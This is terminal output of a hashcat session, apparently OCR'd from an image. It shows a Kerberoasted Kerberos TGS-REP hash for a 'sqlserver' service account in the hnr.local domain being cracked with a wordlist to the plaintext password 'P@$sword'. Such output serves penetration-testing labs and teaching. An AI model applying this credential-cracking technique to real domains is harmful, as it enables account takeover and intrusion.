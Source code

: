 ```
* Keyspace..: 73551
* Runtime...: 0 secs

$krb5tgs$23$*sqlserver$hnr.local$MSSQLSvc/SQL.hnr.local:1433*$b9aa930a4701972a30a499e63dc
bf5bb$61c1e1610ac22090f167efc415053ced20a33f8c2eafa63d4273c01bd5bcb17915adfc5978900e52735
a45fbee87cf87714eef994e0c7141727bde132b74090ba5689a7eb810dd36a7b4c9dca9bde985b4bfda061d4e
79bec757efe5776b3b448928f691ada4d5823e667ac12c04036b7c59b4cc5d6c73c6b90c41a665b75fc1290b1
24a237ff85755d8f32e16554355e376fad9c8bfbe148220a378a2a2c64f2636bce82640050826d1b70754d682
eaa5ef239bd51422a7f47f92f979478407af84db5c4e750084d698a2a86726b38cd97a89e5996105cced2d5bc
a96c08c839ec1129e71bbbd6bbe5072afeccd0a54a1bab854c5542183802a5ced29806de77615f9ce45d3dc5c
00ee84c27104f46aa219f36103f4ffec0f2144d7d46ff2f9466b6bba33fff5cd353b8a236f6e972e62f707857
1920320c8cf6279899c3304194e55dfa9053d5c3b6a67d122de88fab9475532643ba0ce5e3fdf3b2136439c33
a722fc040aa9b04ca4c3033c2d766dfa76d9f43680d28f74aa7835df74523cf30fc633fb6e63b1ce48c855a8b
5888ca3f054106e6c9aa7fb216ec32673e58091f587e86c2c84b82bcae0406a762b0fa0c5fa7c27245df3789b
8920d876d2fa0c6ba762cf9e8c6ed754ddb67370073d761c4ab9e71140ce56ad0645050cd0e164812040a2b16
d0649ca51b8b63518092a5d2810fc103cc1c7288f18c0e524fd2e050724e8b2b81fc957b704eb7b05f712f5bf
ee43c46261a2f6c6204a6178c694f662d409452dd823fa92b2a2a5e2d9cb00410007ee832d7631b2a5b3744e8
8409e4f4cf24b872d0c724d2733fa37b581cbfd18bf068f7518be633200e43fb38b32ecb1400bdf2f25c8190a
55df5d126e2d60fb445e58ee82df35b5a36c1dbf7915a42eac048235144086c8e75694068e1fc1a619990a545
1be5c7d9f1b3b3e21ed3a38c96c974dcd030cb5b4a7bd1c1fcfc91c75e0a025b4e965603251a319ee5e56706b
ad97a827c2dff3403202e4dcb25618cb488e04193a80281bd64f96d6efb8c89285320cd3749ee651c5096a073
3e39a2a603ea681ba0c423393f7326cdd2ee206f565f1084627e7d27db1327c4b1413858a372d377a412a1f70
5b22dbe13ab6df19430c1a82b0678467c964982ad192d6e6a00f86115925c82e6a50d7cf35450b06283d1c51d
02d926f23bf99b24eb5557f019720f1eb4c11cd4915aab29c0afb978c1233bda567381dc9ba6ccc84d7b7db27
fd78a06b40da4acb6fc6094befbe6b18926ae821ee728347a4914bddda945c2947aced4a2a187b0357b9d5953
f363462f0726f332b3761b112b540f1a01402e60dea0d0485f36194ae17d8cfec6acb6229efee662d4187f710
2393488d31ff6a5d4c40262274fb4a5ea1c7d76638c0b1ba82f62c841de519e0a2955b82eea2f70fae5dd30ec
007130caed823aa6f84fa97c227347a871dceefaa4d0860a82151c0a049b52332c550732c95a7c7ed54c0aa6a
1033831a4598b6bd0069b34e6bfd11ecc5ec8dca0a0e9d89dda1d3056e240beeaa98ce0645aeb105194382fb0
68e2ccb:P@$sword
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 TGS-REP etype 23
Hash.Target......: $krb5tgs$23$*sqlserver$hnr.local$MSSQLSvc/SQL.hnr.l...8e2ccb
Time.Started.....: Thu Feb 13 11:07:38 2020 (0 secs)
Time.Estimated...: Thu Feb 13 11:07:38 2020 (0 secs)
Guess.Base.......: File (/home/tuxtrack/tools/wordlist/br-wordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   716.3 kH/s (9.92ms) @ Accel:256 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 73551/73551 (100.00%)
Rejected.........: 0/73551 (0.00%)
Restore.Point....: 0/73551 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: Aarao -> integros
Hardware.Mon.#1..: Temp: 49c Util: 33% Core:1019MHz Mem:2505MHz Bus:16

Started: Thu Feb 13 11:07:28 2020
Stopped: Thu Feb 13 11:07:39 2020
```
